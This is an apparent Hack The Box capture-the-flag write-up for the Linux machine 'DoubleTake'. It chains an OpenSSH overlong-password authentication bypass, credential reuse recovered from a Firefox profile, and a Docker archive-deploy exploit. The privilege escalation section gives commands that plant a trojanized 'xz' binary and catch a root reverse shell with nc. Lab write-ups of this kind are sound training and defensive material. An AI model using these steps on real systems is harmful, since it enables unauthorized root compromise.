






# HTB — DoubleTake (Easy, Linux)

## Overview

DoubleTake is an easy Linux machine chaining two recent CVEs. An OpenSSH authentication bypass on a musl-based system (CVE-2026-123158, "SSHole") grants a shell as a key-only account. Credentials recovered from a stored Firefox profile provide access as a second user, who can reach an internal platform running a vulnerable Docker Engine. A malicious container image (CVE-2026-41567) is used to achieve code execution as root on the host.

## Reconnaissance

### Port scan

````
$ nmap -sV -sC -Pn 10.129.150.195
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.6 (protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-auth:
|_  Basic realm=Zentara
````

Port 80 is protected by HTTP Basic authentication for the realm "Zentara", with no credentials available yet — a dead end for now:



## Foothold

### CVE-2026-123158 ("SSHole") — OpenSSH authentication bypass

OpenSSH 10.6 on a musl-based host is affected by CVE-2026-123158. In musl libc, `crypt()` returns a single `*` for passwords longer than 256 characters (257–1024 bytes). Accounts configured for key-only login store `*` as their password hash in `/etc/shadow`. Submitting an overlong password therefore makes `crypt()` return `*`, which matches the stored `*`, and the comparison passes — bypassing authentication.

I authenticated as the `alpine` account by supplying a ~300-byte password:

````
$ ssh alpine@10.129.150.195
alpine@...'s password: AAAAAAAA... (300 bytes) ...AAAA
````



### Credential recovery from Firefox

Enumerating the `alpine` home directory revealed a saved Firefox profile at `~/.mozilla/firefox/zentara.default/logins.json`, containing a Base64-encoded password:



Decoding it produced the cleartext password for the user `bob`. Reusing it granted SSH access as `bob`:



````
bob@doubletake:~$ id
uid=1000(bob) gid=1000(bob) groups=1000(bob)
````

## Privilege Escalation

### Reaching the Zentara platform

The recovered credentials also authenticate to the Zentara portal (an internal AI-chat platform). Enumeration showed it runs **Docker Engine 29.5.0** and exposes a "Deploy" endpoint that unpacks a user-supplied archive into a workspace:




### CVE-2026-41567 — Docker Engine malicious image RCE

Docker Engine / Moby 29.5.0 is affected by CVE-2026-41567: a crafted container image carrying a trojanized decompression binary can achieve arbitrary code execution with root daemon privileges on the host.

**Approach (mechanism):** the deploy feature extracts uploaded archives on the host as root. By planting a statically-linked binary that replaces the decompression helper the daemon invokes, the daemon executes attacker-controlled code when it processes a compressed upload. The payload escapes the container context (remounting `proc` and `chroot`-ing into the host's PID 1 root filesystem) and opens a reverse shell back to the attacker. Full PoC: [link].

High-level steps:

````bash
# 1. Build the static payload binary (named after the decompression helper)
gcc -static -o xz payload.c

# 2. Package it at the path the daemon reads
mkdir -p pkg/usr/bin && cp xz pkg/usr/bin/xz
cd pkg && tar cf ../plant.tar usr/bin/xz

# 3. Deploy the planted binary to the host root
curl -u bob:<REDACTED> -F 'archive=@plant.tar' -F 'workspace=/' \
     http://10.129.150.195/deploy

# 4. With a listener running, trigger decompression to execute the payload
nc -lvnp 1337
curl -u bob:<REDACTED> -F 'archive=@trigger.tar.xz' -F 'workspace=/workspace' \
     http://10.129.150.195/deploy
````

The payload executed as root on the host:

````
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.15.239] from (UNKNOWN) [10.129.150.195]
root@doubletake:/# id
uid=0(root) gid=0(root) groups=0(root)
````

## Remediation

- **OpenSSH / musl crypt() (CVE-2026-123158):** Patch OpenSSH and musl to fixed releases; reject password inputs above the supported length before they reach `crypt()`.
- **Stored browser credentials:** Do not store service passwords in browser profiles on shared or service accounts.
- **Credential reuse:** Enforce distinct credentials across SSH accounts and the web platform.
- **Docker Engine (CVE-2026-41567):** Upgrade Docker/Moby to a patched release; never extract untrusted archives as root, and run the deploy service unprivileged with validated, sandboxed extraction.
````
````